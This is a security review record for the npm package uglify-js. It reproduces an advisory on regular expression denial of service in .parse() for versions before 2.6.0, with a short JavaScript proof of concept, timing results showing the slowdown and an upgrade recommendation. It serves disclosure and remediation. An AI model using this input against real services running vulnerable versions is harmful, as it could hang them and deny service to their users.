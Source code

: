 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Adam Baldwin
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/uglify-js
Review-Date: '2015-10-24'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>Recommendation: Update to version 2.6.0 or later
### Details
uglify-js is vulnerable to regular expression denial of service (ReDoS) when certain types of input is passed into .parse().  "The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression to enter these extreme situations and then hang for a very long time." [1]  ### Proof of Concept  ``` var u = require('uglify-js'); var genstr = function (len, chr) {     var result = "";     for (i=0; i<=len; i++) {         result = result + chr;     }      return result; }  u.parse("var a = " + genstr(process.argv[2], "1") + ".1ee7;"); ```  ### Results ``` $ time node test.js 10000 real	0m1.091s user	0m1.047s sys	0m0.039s  $ time node test.js 80000 real	0m6.486s user	0m6.229s sys	0m0.094s ```
<br><br>• Affected Versions: <2.6.0
<br>• Patched Versions: >=2.6.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
